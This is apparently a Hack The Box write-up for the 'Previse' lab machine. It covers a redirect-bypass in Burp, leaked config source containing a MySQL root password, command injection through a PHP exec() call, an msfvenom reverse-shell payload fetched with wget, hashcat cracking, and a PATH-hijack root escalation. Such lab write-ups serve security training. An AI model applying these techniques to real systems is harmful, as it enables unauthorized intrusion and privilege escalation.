 ```yaml
---
description: 'https://app.hackthebox.eu/machines/373'
---
```


# previse

`Nmap` scan

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
```

so just 80 for now. the output from `ffuf`

`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u` [`http://10.129.186.43/FUZZ`](http://10.129.186.43/FUZZ) `-e .php,.txt`

```text
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
status.php              [Status: 302, Size: 2966, Words: 749, Lines: 75]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
```

let's go through these files now.

so, when I do `/accounts.php`, it shows me a 302 redirect that is supposed to be protection mechanism for the website :\).

So, lets open up `Burp` and see if we can turn on the intercept and see if we can change the `302 FOUND` to `200 OK` and remove the Location header

![](../../.gitbook/assets/image%20%2811%29.png)

![](../../.gitbook/assets/image%20%284%29.png)

now, we got the following page,

![](../../.gitbook/assets/image%20%2814%29.png)

using this page, we are able to create the account as user `admin1`., and once we do that and login, I'm able to look at a zip file that is on the page at `/files.php`, and we got the source code of the website here.

![](../../.gitbook/assets/image%20%283%29.png)

```text
# config.php

<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

and this in `logs.php`, maybe we can inject something here

```text
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";
```

so, looks like this above piece of code is where our entry point is, so lets try to confirm that if we have code execution on the remote server by pinging our self from the target machine and running a 

`sudo tcpdump -i tun0 icmp` on the local machine

![](../../.gitbook/assets/image%20%2810%29.png)

if you see any response on your machine like below, that mostly means we have code execution

![](../../.gitbook/assets/image%20%281%29.png)

so, after confirming that we have code execution, I've run through couple of payloads to get a `reverse shell` using bash one-liner and `python` as well, but no luck, so I've used the generated payload using `msfvenom`

```text
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4242 -f elf -o shell
```

and once we generate this, we can just open up a http server on our local machine, and transfer the file to remote using `wget` and mark it as an executable `chmod 777 /tmp/shell` and run it

![](../../.gitbook/assets/image%20%2815%29.png)

once we do that, we get a reverse shell

once we get a reverse shell, we can see that there is a `SQL` server running on the machine, and if you remember, there is a password that we grabbed before for the `SQL` service

![](../../.gitbook/assets/image%20%2813%29.png)

not sure if we'll be able to crack this

![](../../.gitbook/assets/image%20%2812%29.png)

there we go, we got it. let's see if we can crack this, meanwhile in `/var/backups` I found some `gz` files, lets have a look at that before we go into cracking \(not much in those `gz` files\)

so, we're able to crack the password using `hashcat`, \(it took quite some time, unusual for a CTF\)

![](../../.gitbook/assets/screenshot-2021-08-13-at-22.45.09.png)

so, we can login into the box as `m4lwhere` user into this box, and its a pretty straight forward stuff after this to get `root`

![](../../.gitbook/assets/screenshot-2021-08-13-at-23.36.48.png)

and if we look closely, we don't see any env reset stuff going on when we run `sudo -l`, so its possible that if we export a `PATH` variable, we might be able to persist it when we run the sudo command.

```text
echo "chmod +s /bin/bash" >> ~/gzip
export PATH=$HOME:$PATH
```

once we do this and run the sudo command, `setuid` is turned ON on our `bash` executable, and we can simply run `/bin/bash -p` to get a root shell, and if you want an full ssh shell, you can put your `id_rsa.pub` into the `/root/.ssh/authorized_keys` and we can login using ssh

![](../../.gitbook/assets/screenshot-2021-08-13-at-23.44.01.png)


